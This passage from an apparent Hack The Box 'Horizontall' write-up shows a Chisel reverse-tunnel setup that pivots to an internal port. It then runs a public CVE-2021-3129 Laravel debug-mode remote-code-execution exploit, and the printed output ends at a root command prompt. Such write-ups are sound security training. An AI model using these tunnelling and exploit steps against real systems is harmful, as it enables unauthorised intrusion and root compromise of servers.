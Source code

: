 But unfortunately I was unable to crack this password.

Going back to the open internal ports, I can use Chisel to set up a tunnel to try to access whatever is running internally on port 8000:

On my Kali box:
```
./chisel_1.8.1_linux_arm64 server -p 8080 --reverse
```

On the target:
```
./chisel_1.8.1_linux_amd64 client 10.10.14.78:8080 R:8000:127.0.0.1:8000
```

We can now navigate to 127.0.0.1:8000 in the browser and find a Laravel page.

![horizontal_laravel.png](../assets/horizontall_assets/horizontall_laravel.png)

Looking for exploits I find: https://github.com/joshuavanderpoll/CVE-2021-3129 which exploits Laravel version 8 and earlier that are running in debug mode.

And we can confirm it works, and is running as root to boot:

```
┌──(ryan㉿kali)-[~/HTB/Horizontall]
└─$ python CVE-2021-3129.py --host="127.0.0.1:8000/" --force

   _____   _____   ___ __ ___ _    _____ ___ ___ 
  / __\ \ / / __|_|_  )  \_  ) |__|__ / |_  ) _ \
 | (__ \ V /| _|___/ / () / /| |___|_ \ |/ /\_, /
  \___| \_/ |___| /___\__/___|_|  |___/_/___|/_/
 https://github.com/joshuavanderpoll/CVE-2021-3129

[•] Using PHPGGC: https://github.com/ambionics/phpggc
[@] Starting exploit on "http://127.0.0.1:8000/"...
[@] Testing vulnerable URL "http://127.0.0.1:8000/_ignition/execute-solution"...
[@] Searching Laravel log file path...
[•] Laravel seems to be running on a Linux based machine.
[√] Laravel log path: "/home/developer/myproject/storage/logs/laravel.log".
[•] Laravel version found: "8.43.0".
[•] Use "?" for a list of all possible actions.
[?] Please enter a command to execute: ?
[•] Available commands:
    exit                       -  Exit program.
    help                       -  Shows available commands.
    clear_logs                 -  Clears Laravel logs.
```